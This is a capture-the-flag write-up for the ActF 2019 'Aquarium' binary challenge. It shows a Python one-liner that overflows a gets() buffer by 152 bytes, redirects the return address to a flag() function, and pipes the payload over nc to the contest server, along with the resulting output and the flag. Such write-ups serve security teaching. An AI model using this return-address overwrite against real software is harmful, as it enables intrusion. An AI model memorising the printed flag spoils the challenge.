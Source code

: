 # Aquarium
Binary

## Challenge 

Here's a nice little program that helps you manage your fish tank.

Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305.

Author: kmh11

[aquarium](aquarium)

[aquarium.c](aquarium.c)

## Solution

From the code, we have 6 scanf() before we reach the vulnerable gets().

There is a flag() function at address 0x04011b6.

With some fuzzing, we get the offset as 152 to control the return address.

	 # python -c 'import struct; print "123\n"*6 + "A"*152 + struct.pack("<Q", 0x04011b6)' | nc shell.actf.co 19305
	Enter the number of fish in your fish tank: Enter the size of the fish in your fish tank: Enter the amount of water in your fish tank: Enter the width of your fish tank: Enter the length of your fish tank: Enter the height of your fish tank: Enter the name of your fish tank: actf{overflowed_more_than_just_a_fish_tank}
	Segmentation fault (core dumped)

## Flag

	actf{overflowed_more_than_just_a_fish_tank}
